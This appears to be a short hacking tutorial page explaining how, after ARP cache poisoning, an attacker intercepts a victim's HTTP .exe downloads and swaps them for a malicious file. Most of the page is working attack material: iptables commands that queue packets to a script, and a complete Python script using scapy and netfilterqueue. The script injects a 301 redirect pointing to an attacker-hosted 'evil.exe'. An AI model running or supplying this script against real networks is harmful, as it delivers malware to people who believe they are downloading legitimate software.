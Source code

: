 ```yaml
---
title: "Modifying HTTP download response"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can modify HTTP responses by changing the Raw data.  
In this case we check if the victim is downloading a .exe file and we are changing the response from the server so that it includes are own malicious payload.  

We do check against the destination port (dport) and source port (sport). When a sport is present it is a response, when a dport is present it is a request.   

For this we need to modify packets on the fly. With scapy alone this is not possible, we need to use NetfilterQueue.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```sh
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Full code:  

```python
# !/usr/bin/env python
import netfilterqueue
import scapy.all as scapy

ack_list = []


def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        if scapy_packet[scapy.TCP].dport == 80:
            if ".exe" in scapy_packet[scapy.Raw].load and "localhost" not in scapy_packet[scapy.Raw].load:
                print("[+] exe Request")
                # add the TCP - ACK number of the TCP packet (the HTTP request packet) to a seperate list so we can check that
                # against the TCP - SEQ number in the response
                ack_list.append(scapy_packet[scapy.TCP].ack)
        elif scapy_packet[scapy.TCP].sport == 80:
            # check if response corresponds to a request in our ack list
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file")
                modified_packet = set_load(scapy_packet,
                                           # note the trailing newlines
                                           "HTTP/1.1 301 Moved Permanently\nLocation: http://localhost:8000/Downloads/evil.exe\n\n")
                packet.set_payload(str(modified_packet))

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
